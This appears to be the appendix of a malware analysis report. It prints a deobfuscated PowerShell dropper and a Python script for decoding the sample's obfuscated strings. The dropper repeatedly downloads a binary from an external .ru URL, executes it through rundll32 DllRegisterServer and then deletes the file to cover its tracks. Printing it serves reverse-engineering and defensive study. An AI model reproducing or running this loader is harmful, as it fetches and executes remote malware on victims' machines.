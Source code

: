 # Appendices

## Deobfuscated PS script

```
$download_url = "http://to4karu.ru/ukhseigfuhasfoiuewgfuyasdfasuydfbu.bin";
$downloaded_file = "ujfnrhzvpittgwsj.bin";
$register_command = "$downloaded_file, DllRegisterServer";

# Download file from URL to user's profile directory
function download_file {
    while ($file_exists -eq $false) {
        try {
            $web_client = New-Object net.webclient;
            $web_client.DownloadFile($download_url, $downloaded_file);
            if ((Get-Item $downloaded_file).length -ge 99463) {
                $file_exists = $true;
                Start-Process -FilePath "rundll32.exe" -Args $register_command;
                delete_file;
                exit;
            }
        } catch {}
        sleep -s 5;
    }
}

# Delete downloaded file
function delete_file {
    try {
        sleep -s 10;
        Remove-Item -ErrorAction Stop -Path $downloaded_file;
    } catch {
        delete_file;
    }
}
download_file;
```

## Decoder.py

```
lookup_table = """ojqfiadxctxvppyfjmlpqkxqoialcrfhywepuacqrxrlcrdoepuauhdrhgnyfrzsoscshhqubokllhvvxhcvdk.zgvfpgxkuwmslwpjb-afyfahncmnfl sheyocykzanlrcecfddubovibwbdtihfddybyqieacockrljoygigimrvimsmdbxmcdpoeiar:kinjvbtt{wmjbuaiheij9kmlzkmbjpgkaBqmbsdlddqedtAzfakah0telnxj5epfngytq7jcpmnhoocikmsl2pmeyznFwpgamk6xcjchcyt8ghtdpxcq1ihqnvaeootgmheCyfpcgglpw4nzsekbszsbp3brdeqccjj}cuhruvchwot\jirscwqWeifadrmSuglngkhgkgtlvzyvakidqwhm"""

def data_decoder(array):
    string = ""
    for value in array:
        value -= 1
        string += lookup_table[value]    
    if array and string:
        print(string)

# xxtytqommjogvbx
print(data_decoder([13, 1, 34, 35, 30, 64, 32, 35, 19, 19, 87, 35, 8, 35]))
# fcvhjrsmilyq
print(data_decoder([105, 59, 1, 13, 118, 105, 35, 8, 35, 9, 118, 73, 15, 13, 6, 64, 64, 118, 105, 34, 5, 59, 118, 32, 5, 7, 7, 35, 59, 118, 105, 59, 1, 59, 5, 118, 105, 35, 118]))
# ywkkujfenopw
```